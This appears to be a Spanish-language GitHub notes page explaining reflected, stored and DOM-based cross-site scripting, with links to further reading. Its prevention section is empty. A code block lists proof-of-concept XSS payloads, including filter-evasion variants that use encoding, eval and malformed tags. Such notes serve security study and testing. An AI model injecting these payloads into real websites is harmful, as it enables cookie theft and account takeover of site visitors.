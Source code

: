 ### ¿Qué es el XSS?
Los ataques XSS o Cross-Site Scripting son un tipo de inyección que permite al atacante inyectar código malicioso en un sitio web, este código es posteriormente interpretado por el cliente (navegador) víctima y da pie a la exfiltración de información sensible, credenciales, cookies de sesión... Así como otras acciones maliciosas.
Hay 3 tipos principales de inyección XSS:
#### Reflected XSS
Los ataques XSS reflejados, el código malicioso es embebido en un enlace para enviar a la víctima, de manera que cuándo dicha víctima clica en el enlace, el código se ejecuta en el navegador.
Por ejemplo, podría darse el caso de una víctima que recibe un enlace que contiene código javascript malicioso, una vez accede a la página, ese código se ejecuta, enviando su cookie de sesión al atacante sin ser consciente de ello.
#### Stored XSS
En el caso de los ataques XSS almacenados, el atacante consigue dejar el código malicioso almacenado durante un periodo indefinido en la propia página web, de manera que cada vez que alguien accede a la página este código se ejecuta, cobrándose una víctima por cada visita.
Por ejemplo, podría darse el caso de una inyección XSS que queda almacenada en la sección de comentarios de un blog, de esta manera, cada vez que un usuario accede a dicho post y por ende su navegador interpreta el código que contiene el script malicioso, este se ejecuta en el navegador de la víctima y permite tomar una serie de acciones maliciosas al atacante.
#### DOM-based XSS 
Los ataques XSS DOM-based$¹$  suceden  cuando una web vulnerable modifica el DOM en el navegador del lado del cliente, el código malicioso no se envía directamente al servidor, si no que se ejecuta directamente en el navegador del usuario, dificultando mucho la detección y dianóstico, ya que por la naturaleza del ataque y la capa en la que ocurre no queda registrado.
Por ejemplo, si un input del usuario activa un cambio en el código de la página de alguna forma (algún tipo de pop-up, un mensaje de bienvenida...), el código inyectado se ejecuta junto la carga de estos cambios y se ejecuta en el propio navegador.
	1 --> El DOM es una interfaz de programación para documentos web, y sirve el código que conforma la página de manera que este pueda ser modificado por programas y hacer cambios en la estructura, estilo o contenido.
### Payloads básicos
``` javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
<svg><script>alert('33')
<svg><script>alert&lpar;'33'&rpar;

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```
### Prevención

### Recursos
[XSS Filter Bypass List](https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec)
[XSS Payload List](https://github.com/payloadbox/xss-payload-list/blob/master/Intruder/xss-payload-list.txt)
### Artículos
[Artículo de la OWASP](https://owasp.org/www-community/attacks/xss/)
[OWASP profundizando en los ataques DOM-based](https://owasp.org/www-community/attacks/DOM_Based_XSS)
[Artículo de PayLoadsAllTheThings sobre la detección y explotación](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#methodology)
[Vídeo porque evitar alert(1) para XSS](https://youtu.be/KHwVjzWei1c)
[Artículo porque evitar alert(1) para XSS](https://liveoverflow.com/do-not-use-alert-1-in-xss/)
[Artículo de PortSwigger que incluye posibles vectores de ataque](https://portswigger.net/web-security/cross-site-scripting)